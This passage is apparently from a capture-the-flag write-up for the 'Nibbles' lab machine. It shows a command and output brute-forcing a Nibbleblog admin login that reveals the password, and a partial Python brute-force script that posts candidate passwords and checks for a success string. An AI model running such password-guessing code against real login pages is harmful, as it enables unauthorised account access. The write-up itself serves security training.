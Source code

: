 - ***Python***

```bash title="Nibbles/tools"
python3 bruteforce.py http://10.129.96.84/nibbleblog/admin.php admin custom_dictionary.txt
```

> [!NOTE]- *Command Output*
>
> ```bash
> Login Incorrect (Password: Hello)
> Login Incorrect (Password: world)
> Login Successfull (Password: nibbles)
> ```
>

> [!IMPORTANT]- *Bruteforce Script*
>
> ```python
> #!/usr/bin/env python3
> 
> import signal
> import os
> import sys
> import time
> from colorama import Fore, Style
> import argparse
> import requests
> 
> def sigint_handler(sig, frame):
> 
>     print(Fore.MAGENTA + "\nSIGINT Signal sent to the process. Exiting..." + Style.RESET_ALL)
> 
>     signal.signal(signal.SIGINT, signal.SIG_DFL)
> 
>     os.kill(os.getpid(), signal.SIGINT)
> 
> class BruteForcer():
> 
>     def __init__(self, url, username, file):
> 
>         self.url = url
>         self.username = username
>         self.file = file
>         self.session = requests.Session()
> 
>     def doLogin(self, username, password):
> 
>         data = {
>             'username' : username,
>             'password' : password
>         }
> 
>         try:
>             r = self.session.post(self.url, data=data)
> 
>             if r.ok:
>                 if "Mr Nibbler is Cool!" in r.text:
> 
>                     return True
>             else:
>                 print(Fore.RED + f"Error -> Status Code: {r.status_code}" + Style.RESET_ALL)
>                 sys.exit(1)
> 
>         except requests.ConnectionError as e:
>             print(Fore.RED + f"Error: {e}" + Style.RESET_ALL)